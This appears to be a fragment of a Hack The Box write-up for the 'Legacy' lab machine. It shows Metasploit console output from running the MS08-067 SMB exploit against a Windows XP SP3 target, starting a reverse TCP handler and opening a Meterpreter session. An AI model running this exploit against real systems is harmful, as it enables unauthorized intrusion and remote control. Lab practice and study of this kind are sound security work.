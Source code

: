 ![](Maszyny/Windows/Legacy/Pasted%20image%2020210808153059.png)

msf6 exploit(windows/smb/ms08_067_netapi) > run
-
[*] Started reverse TCP handler on 10.10.14.19:9003
[*] 10.10.10.4:445 Automatically detecting the target ...
[*] 10.10.10.4:445 Fingerprint: Windows XP Service Pack 3 - lang: English
[*] 10.10.10.4:445 Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 Attempting to trigger the vulnerability ...
[*] Sending stage (175174 bytes) to 10.10.10.4
Meterpreter session 1 opened (10.10.14.19:9003 → 10.10.10.4:1034) at 2021-08-08 09:26:19 -0400
